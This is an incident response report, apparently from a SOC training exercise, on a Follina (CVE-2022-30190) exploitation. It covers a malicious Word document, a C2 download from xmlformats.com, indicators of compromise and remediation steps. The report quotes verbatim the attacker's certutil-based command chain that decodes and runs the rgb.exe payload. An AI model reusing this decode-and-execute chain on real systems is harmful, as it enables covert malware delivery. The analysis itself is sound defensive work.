

# Incident Response Report: SOC173 - Follina 0-Day Exploit (CVE-2022-30190)
**Incident ID**: SOC173 / EventID 123, **Date of Report**: "Jan 06, 2026", 
**Analyst**: Steven Razanajatovo, **Severity**: High, 
**Status**: Open (Immediate Action Required), **Verdict**: True Positive

## Executive summary
On June 02, 2022, at 03:22 PM, the SOC received an alert (SOC173) indicating a "Follina" 0-Day exploitation attempt on the endpoint "**JonasPRD**" (172.16.17.39).

Investigation confirmed that the user opened a malicious Word document (`05-2022-0438.doc`) which successfully exploited the Microsoft Support Diagnostic Tool (MSDT) vulnerability (CVE-2022-30190). The exploit triggered a connection to a Command and Control (C2) server (`xmlformats.com`) to download a secondary HTML payload. Post-exploitation command execution was observed, where the attacker decoded and executed a binary named `rgb.exe`. The incident is classified as a True Positive confirmed compromise.

## Incident overview
- **Alert Rule**: SOC173 - Follina 0-Day Detected

- **Event Time**: Jun 02, 2022, 03:22 PM

- **Hostname**: JonasPRD

- **IP Address**: 172.16.17.39

- **File Name**: 05-2022-0438.doc

- **Alert Trigger**: msdt.exe executed after Office document

## Investigation timeline & analysis
### Initial vector (The Exploit)
The user opened a 10KB Word document identified as an exploit for the "Follina" vulnerability.

- **File Hash (SHA256):** 4a24048f81afbe9fb62e7a6a49adbd1faf41f266b5f9feecdceb567aec096784

- **Analysis**: VirusTotal flagged the file as malicious (46/65 vendors), identifying it as a Trojan/Downloader associated with CVE-2022-30190.



- **Mechanism**: The Follina vulnerability allows remote code execution by abusing the `ms-msdt` URL protocol to execute PowerShell commands via the Microsoft Support Diagnostic Tool, even without macros being enabled.

### C2 Communication
Log management revealed that upon opening the document, the host initiated traffic to an external C2 domain.

- **Destination**: `www.xmlformats.com` (Resolving to `141.105.65.149`).


- **Payload Download**: The host successfully downloaded a file named `RDF842l.html` at 03:20 PM.

- **Reputation**: Both the domain and the HTML file are flagged as malicious by threat intelligence vendors.

### Post-exploitation (Code execution)

Endpoint logs captured the execution of obfuscated commands immediately following the network connection.

1. **03:20:45 PM:** `taskkill /f /im msdt.exe` — The attacker killed the MSDT process to hide the diagnostic window from the user.

2. **03:20:56 PM:**
```
cd C:/users/public/&&for /r %temp% %i in (05-2022-0438.rar) do copy %i 1.rar /y&&findstr TVNDRgAAAA 1.rar>1.t&&certutil -decode 1.t 1.c &&expand 1.c -F:* .&&rgb.exe
```
- **Analysis**: This command chain copies a RAR archive from the temp folder, extracts a base64 encoded payload (`TVNDRg..`.) using `findstr`, decodes it using `certutil`, expands it, and executes the final binary payload `rgb.exe`. This confirms full Remote Code Execution (RCE).

## Indicators of Compromise (IOCs)
The following artifacts identify the attack infrastructure and payloads.

| Type  | Value  |
|---|---|
| C2 Domain  | `www.xmlformats.com`  |
| C2 IP  | `141.105.65.149`  |
| File Hash (SHA256)  | `4a24048f81afbe9fb62e7a6a49adbd1faf41f266b5f9feecdceb567aec096784`  |
| Payload URL  | `http://www.xmlformats.com/RDF842l.html`  |
| Binary Name  | `rgb.exe`  |

## Containment & remediation
- **Isolation**: The host JonasPRD (172.16.17.39) must be immediately isolated from the network to prevent lateral movement.

- **Process Termination**: Kill the `rgb.exe` process if it is still running.

- **File Cleanup**: Remove `05-2022-0438.doc` and the artifacts created in C:/users/public/ (e.g., `1.rar`, `1.t`, `1.c`, `rgb.exe`).

- **Blocking**: Block access to `xmlformats.com` and `141.105.65.149` at the perimeter firewall.

## Recommandations
1. **Patching**: Ensure the Microsoft cumulative security update for CVE-2022-30190 (June 2022) is applied to all endpoints.

2. **Mitigation**: If patching is not immediately possible, disable the MSDT URL protocol via the registry (**reg delete HKEY_CLASSES_ROOT\ms-msdt /f**).

3. **Attack Surface Reduction**: Configure Attack Surface Reduction (ASR) rules to block Office applications from creating child processes.